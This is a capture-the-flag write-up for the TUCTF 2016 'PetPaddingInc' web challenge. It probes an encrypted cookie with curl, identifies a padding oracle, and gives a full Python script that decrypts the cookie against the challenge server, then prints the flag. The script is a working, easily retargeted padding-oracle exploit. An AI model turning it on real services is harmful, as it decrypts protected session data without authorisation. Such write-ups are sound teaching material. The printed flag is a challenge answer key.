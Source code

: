 # TUCTF 2016: PetPaddingInc

## Challenge details
| Event | Challenge | Category | Points |
|:------|:----------|:---------|-------:|
| TUCTF | PetPaddingInc | Web | 150 |

### Description
> We believe a rouge whale stole some data from us and hid it on this website.
>
> Can you tell us what it stole?
> 
> http://104.196.60.112/

## First steps

If we make a request to http://104.196.60.112/ we see a cookie being set:

```bash
Set-Cookie:  youCantDecryptThis="0KL1bnXgmJR0tGZ/E%2B%2BcSDMV1ChIlhHyVGm36/k8UV/3rmgcXq/rLA%3D%3D"
```

This seems to be an urlencode(base64($something));

Lets see how the server reacts to other values:

With an empty value: 
```bash
$curl --url 'http://104.196.60.112/' --cookie 'youCantDecryptThis=' -i
Warning: I couldn't process your request
```
Lets try encoding our own message:

```python
print urllib.quote(base64.b64encode('aa'))
YWE%3D
```
```bash
$curl --url 'http://104.196.60.112/' --cookie 'youCantDecryptThis=YWE%3D' -i 
Warning: I couldn't process your request
```

```python
print urllib.quote(base64.b64encode('aaaaaaaa'))
YWFhYWFhYWE%3D
```
```bash
$curl --url 'http://104.196.60.112/' --cookie 'youCantDecryptThis=YWFhYWFhYWE%3D' -i 
Warning: Bad padding
```

Bad Padding.. if we enter 8 characters, the server responds with a 'bad padding' message. This is a classic example of a so called [Padding Oracle](https://en.wikipedia.org/wiki/Padding_oracle_attack) 
This can be exploited to reveal the plaintext of an encrypted message


## Exploitation
Luckily, there is a python module called paddingoracle which automates all the hard work, we just have to implement a single method to define the padding failure message, and fire the exploit:

```python
#!/usr/bin/env python
#
# TUCTF 2016
# PetPaddingInc (WEB/150)
#
# @a: Smoke Leet Everyday
# @u: https://github.com/smokeleeteveryday
#
from paddingoracle import BadPaddingException, PaddingOracle
from base64 import b64encode, b64decode
from urllib import quote, unquote
import requests
import socket
import time

class PadBuster(PaddingOracle):
    def __init__(self, **kwargs):
        super(PadBuster, self).__init__(**kwargs)
        self.session = requests.Session()
        self.wait = kwargs.get('wait', 2.0)

    def oracle(self, data, **kwargs):
        somecookie = quote(b64encode(data))
        self.session.cookies['youCantDecryptThis'] = somecookie

        while 1:
            try:
                response = self.session.get('http://104.196.60.112/',
                        stream=False, timeout=5, verify=False)
                break
            except (socket.error, requests.exceptions.RequestException):
                logging.exception('Retrying request in %.2f seconds...',
                                  self.wait)
                time.sleep(self.wait)
                continue

        self.history.append(response)
	print response.headers
        if 'warning' in response.headers:
            if "padding" in response.headers['warning']:
		raise BadPaddingException
            
	    logging.debug('Warning, No padding exception raised on %r', somecookie)
            return

	return

if __name__ == '__main__':
    import logging
    import sys

    if not sys.argv[1:]:
        print 'Usage: %s <somecookie value>' % (sys.argv[0], )
        sys.exit(1)

    logging.basicConfig(level=logging.DEBUG)

    encrypted_cookie = b64decode(unquote(sys.argv[1]))

    padbuster = PadBuster()

    cookie = padbuster.decrypt(encrypted_cookie, block_size=8, iv=bytearray(8))

    print('Decrypted somecookie: %s => %r' % (sys.argv[1], cookie))
```

Which will eventually after a LOAD of requests, show the following flag:

```bash
INFO:PadBuster:Decrypted
Decrypted somecookie: 0KL1bnXgmJR0tGZ/E%2B%2BcSDMV1ChIlhHyVGm36/k8UV/3rmgcXq/rLA%3D%3D => bytearray(b'TUCTF{p4dding_bec4use_5ize_m4tt3rs}\n\x04\x04\x04\x04')
```

Giving us the flag

```bash
TUCTF{p4dding_bec4use_5ize_m4tt3rs}
```
